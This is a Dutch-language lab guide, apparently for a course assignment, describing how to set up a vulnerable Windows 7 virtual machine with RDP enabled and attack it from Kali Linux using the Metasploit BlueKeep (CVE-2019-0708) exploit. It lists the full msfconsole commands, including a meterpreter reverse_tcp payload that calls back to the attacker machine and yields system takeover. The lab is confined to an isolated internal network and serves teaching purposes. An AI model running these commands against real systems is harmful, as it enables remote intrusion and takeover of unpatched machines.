 # STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:

- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png`
- En download `ISO IMAGE`
- Zet de ISO in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, gebruik versie 6.1.26:
- `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook dit ISO-bestand in dezelfde map.


### Zorg dat je scripts kunt runnen
Soms laat Windows niet toe om scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster

```ps
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: Start het `create_win7_vm.ps1` script

- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup (klik telkens op *Next*) en vertrouw de installatie indien je dit scherm krijgt. Klik dan op **Install**.
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open cmd als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.
- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali

Zodra de Windows 7 VM klaarstaat, configureer je de KaliVM

### Stap 1:  Netwerkconfiguratie
**Zorgen dat beide VMs in hetzelfde interne netwerk zitten**

- Verander in de VirtualBox settings:
  - Netwerkadapter 1: default NAT (zodat je internet hebt)
  - Netwerkadapter 2: *internal network* en selecteer `npe_intnet` 

**IP-adres toekennen aan eth1**

- Open een terminal op Kali en voer het volgende uit:

```bash
sudo ip addr add 10.10.10.3/24 dev eth1
sudo ip link set eth1 up
```

### Stap 2: Start Metasploit

```bash
msfconsole
```

- Laad vervolgens het Bluekeep expoloit:

```
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set RHOSTS 10.10.10.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.3
set LPORT 4444
set TARGET 1
run
```

- Als alles correct is ingesteld, opent er zich een Meterpreter sessie waarmee je het systeem kunt overnemen.
